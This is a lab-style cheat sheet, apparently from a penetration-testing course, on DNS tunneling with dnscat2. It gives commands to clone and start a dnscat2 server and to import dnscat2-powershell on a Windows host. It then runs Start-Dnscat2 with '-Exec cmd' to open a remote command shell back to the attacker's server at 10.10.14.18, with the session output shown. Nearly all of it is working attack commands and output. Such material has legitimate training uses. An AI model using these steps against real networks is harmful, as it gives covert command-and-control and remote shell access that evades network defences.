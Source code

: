# DNS Tunneling with Dnscat2

## Setting Up & Using dnscat2
#### Cloning dnscat2 and Setting Up the Server

```bash
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```
#### Starting the dnscat2 server

```bash
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```

```bash
New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```
#### Cloning dnscat2-powershell to the Attack Host

```bash
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```
#### Importing dnscat2.ps1

```powershell
PS C:\htb> Import-Module .\dnscat2.ps1
```

```powerbash
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```
#### Confirming Session Establishment

```bash
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```
#### Listing dnscat2 Options

```bash
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```
#### Interacting with the Established Session

```bash
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```

